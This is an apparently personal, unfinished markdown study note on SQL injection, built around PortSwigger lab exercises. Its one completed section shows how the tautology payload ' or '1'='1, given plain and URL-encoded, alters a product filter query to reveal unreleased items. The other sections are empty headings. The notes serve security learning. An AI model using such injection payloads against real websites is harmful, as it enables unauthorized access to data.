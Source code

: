 # Web Hacking 101

## Table of content
 - [SQL Injection](#sql-injection)
   - [Retrieving hidden data](#retrieving-hidden-data)
   - [UNION attacks](#union-attacks)
   - [Blind SQL injection](#blind-sql-injection)

### SQL Injection

Details at [here](https://portswigger.net/web-security/sql-injection)

Type of SQL injection in example

- Retrieving hidden data
- UNION attacks
- Blind SQL injection

## Retrieving hidden data

Modify an SQL query to return additional results

[Lab 1](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

Description of this lab: the query of 1 category `Gifts`

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

And sample URL query: `https://example.com/filter?category=Gifts`

Goal: display details of all products in any category, both *released and unreleased*

`SELECT * FROM products WHERE category = '' or '1'='1' AND released = 1`

We just only adjust in `category=` and put into `''`, so the final payload:
`' or '1'='1` or `https://example.com/filter?category=%27%20or%20%271%27or%271`

[Lab 2](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

Description of this lab: inject in login page:


## UNION attacks

## Blind SQL injection


